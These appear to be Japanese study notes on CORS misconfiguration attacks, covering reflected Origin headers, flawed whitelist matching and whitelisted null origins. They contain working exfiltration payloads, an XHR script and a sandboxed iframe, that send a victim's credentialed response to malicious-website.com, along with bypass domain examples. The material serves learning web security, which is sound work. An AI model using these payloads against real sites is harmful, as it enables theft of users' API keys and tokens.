 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```html
<html>
	<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); /** ←ターゲットサーバのURLとAPIキーなどが生成されている箇所を入力。 **/
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	}; // ← APIを受け取る先を指定する。
	</script>
</html>
```

---
## 2. Originヘッダーの解析エラー
- 別ドメインのアクセスを許可する設定として、ホワイトリストを使用することで制限を掛けることができる。
- 指定されたオリジンがホワイトリストにある場合、`Access-Control-Allow-Origin`ヘッダーに反映され、アクセスが許可される。
↓リクエスト
```
	GET /data HTTP/1.1
	Host: normal-website.com
	...
	Origin: https://innocent-website.com
```
↓レスポンス
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- CORSオリジンホワイトリストの実装では、ミスが起こる場合がある。
	- 例：
		- すべてのサブドメインを許可している。(将来的に取得するであろうドメインも含めて)
		- 他組織のドメインを許可している場合
			- これは正規表現で実装されていることが多くミスが起きやすい。
- **攻撃の例**
	- アプリケーションが次の文字で終わるすべてのドメインへのアクセスを許可する。
		```
		normal-website.com
		```
	- 上記に対して、攻撃者は以下のドメインでアクセスすることが可能となる。
		```
		hackersnormal-website.com
		もしくは
		normal-website.com.evil-user.net
		```

## 3. ホワイトリストに登録されたnullオリジン値
- Originヘッダーの使用では、null値がサポートされている。
- 以下の特殊な状況において、Originヘッダーでnull値を送信する場合がある。
	- クロスオリジンリダイレクト
	- シリアル化されたデータからのリクエスト
	- `file`プロトコルを使用してリクエストする。
	- サウンドボックス化されたクロスオリジンリクエスト

- ローカル開発をサポートするためにnullオリジンをホワイトリストに登録する場合がある。
	- ローカル環境のが合い`file://home/kali/.../index.html`となるので、CORSが存在しない。その場合に`null`を使用する。(オリジンは、「プロトコル＋ドメイン＋ポート」の組み合わせで決まる識別子である。)
	↓リクエスト
	```
	GET /sensitive-victim-data
	Host: vulnerable-website.com
	Origin: null
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: null
	Access-Control-Allow-Credentials: true
	```
	- 上記の様にnullが許可されていた場合クロスオリジンリクエストを生成することができる。
	```html
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	location='malicious-website.com/log?key='+this.responseText;
	};
	</script>"></iframe>
	```
---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性

1. リクエストヘッダーに`Origin: http://hoge.com/`を追加して、`Access-Control-Allow-Origin:`と`Access-Control-Allow-Credentials: true`がレスポンスにあるかを確認。
	![[Pasted image 20251004184839.png]]
2. XSSなどと組み合わせて、被害者が自分が仕込んだOriginヘッダーを含んだリクエストを送信するように仕向ける。
	- 例：
3. `python -m http.server`を起動しリッスン、APIキーを受け取る。
---
